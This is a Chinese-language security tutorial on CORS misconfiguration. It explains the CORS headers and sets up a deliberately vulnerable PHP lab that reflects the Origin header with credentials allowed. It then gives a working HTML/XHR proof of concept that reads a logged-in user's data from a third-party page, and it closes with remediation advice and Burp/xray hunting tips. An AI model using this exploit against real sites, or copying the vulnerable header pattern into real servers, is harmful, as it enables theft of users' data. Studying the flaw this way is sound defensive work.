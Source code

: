 ## CORS介绍

CORS（跨源资源共享）是一种用于在Web应用程序中处理跨域请求的机制。当一个Web应用程序在浏览器中向不同的域（源）发起跨域请求时，浏览器会执行同源策略，限制了跨域请求的默认行为。同源策略要求Web应用程序只能访问与其本身源（协议、域名和端口）相同的资源。

然而，在某些情况下，我们希望允许来自其他源的跨域请求，例如使用AJAX进行跨域数据访问或在前端应用程序中嵌入来自不同域的资源（如字体、样式表或脚本）。这时就需要使用CORS来解决跨域请求的限制。

CORS通过在服务器端设置响应头来进行配置。当浏览器发起跨域请求时，服务器可以通过设置特定的CORS响应头来告知浏览器是否允许该请求。常见的CORS响应头包括以下几个：

1. `Access-Control-Allow-Origin`：指定允许访问该资源的源。可以是具体的源（如http://example.com）或通配符（`*`），表示允许来自任意源的访问。
2. `Access-Control-Allow-Methods`：指定允许的HTTP方法（如GET、POST、PUT等）。
3. `Access-Control-Allow-Headers`：指定允许的请求头字段。
4. `Access-Control-Allow-Credentials`：指定是否允许发送身份凭证（如cookies、HTTP认证等）。
5. `Access-Control-Max-Age`：指定预检请求（OPTIONS）的有效期，以减少对服务器的频繁请求。

在前端代码中，如果要发送跨域请求，可以通过`XMLHttpRequest`对象或`fetch API`添加额外的请求头来指示浏览器发起CORS请求。浏览器会自动在发送请求时检查响应中的CORS头信息，并根据配置决定是否允许该请求。

具体可参考[MDN DOC](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS)

## 漏洞介绍

因为需要配置CORS响应头来告知浏览器是否允许该请求，所以如果配置不当，就可能导致攻击者通过恶意网站或代码执行跨域请求，从而**获取或篡改用户的敏感数据（危害和CSRF类似，不过可以劫持返回的内容）**。

## 漏洞复现

### 环境搭建

实战过程中，主要是`Origin可控`以及`Access-Control-Allow-Credentials`设置为`True`，这样才能劫持到数据，简单的漏洞复现环境如下：

php代码，保存为`index.php`

```php
<?php
$userInfo = array(
    'username' => 'd4m1ts',
    'phone' => '13888888888'
);
$jsonResponse = json_encode($userInfo);

// 检查是否存在Origin头
if (isset($_SERVER['HTTP_ORIGIN'])) {
    // 设置Access-Control-Allow-Origin为请求中的Origin值
    header('Access-Control-Allow-Origin: ' . $_SERVER['HTTP_ORIGIN']);
    
    // 设置Access-Control-Allow-Credentials为True
    header('Access-Control-Allow-Credentials: true');
}

// 检查是否设置了名为admin的Cookie
if (isset($_COOKIE['admin'])) {
    header('Content-Type: application/json');
    echo $jsonResponse;
} else {
  echo "unauth";
}
?>
```

简易启动php web服务

```shell
php -S 127.0.0.1:9999
```

### 复现过程

直接打开会提示`unauth`

![unauth](README.assets/image-20230516下午73001995.png)

根据代码，需要在Cookie中设置字段`admin`

> [!NOTE]
>
> 浏览器默认SameSite是Lax，`Lax`的情况下无法发送至第三方上下文中，所以需要设置一下，不然无法劫持！

```javascript
document.cookie = "admin=1; SameSite=None"
```

设置后刷新就可以拿到数据了，我们假设这是敏感数据，后续即使对这个数据进行劫持。

![auth](README.assets/image-20230516下午73051471.png)

---

假设`http://internal.gm7.org:9999/`是目标，测试过程中在请求数据包头添加`Origin`字段，观察响应包，发现Origin可控，且`Access-Control-Allow-Credentials: true`，还没有验证referer，就说明可以劫持了。

![ac](README.assets/image-20230516下午73300530.png)

编写POC如下：

```html
<!DOCTYPE html>
<html>
<body>
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "http://internal.gm7.org:9999/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
</body>
</html>
```

放到第三方网站上，可见成功劫持

![success](README.assets/image-20230516下午73528810.png)

### 特别说明

如果要CORS携带Cookie，同时成功利用该漏洞，需要满足如下几个条件

1. Cookie的`SameSite`属性值为`None`，但目前浏览器默认几乎都是`Lax`
2. 响应头中的`Access-Control-Allow-Origin`不能为通配符`*`，而是应指定具体的域名，否则只能发起请求，无法获取到响应
3. 服务器的响应头需要包含`Access-Control-Allow-Credentials: true`
4. 在发起Ajax请求时，需要将`withCredentials`设置为`true`。

## 修复建议

1. 限制`Access-Control-Allow-Origin`的值为可信源，尽可能设置白名单，不能为`*`，也不能为`null`
2. 避免`Access-Control-Allow-Credentials`的值为`True`
3. 设置`Access-Control-Allow-Methods`（允许的 HTTP 方法）、`Access-Control-Allow-Headers`（允许的请求头）

## 挖掘技巧

可以在burpsuite中勾选替换条件，自动增加Origin

![burp](README.assets/image-20230516下午83549525.png)

然后从响应头中查看是否可控Origin以及是否包含`Access-Control-Allow-Credentials: true`

![resp](README.assets/image-20230516下午83700689.png)

也可以挂着xray去扫，不过误报率可能会比较高，大多都不是敏感信息，没啥意思，不过反正都需要人工去判断，看个人喜好吧。
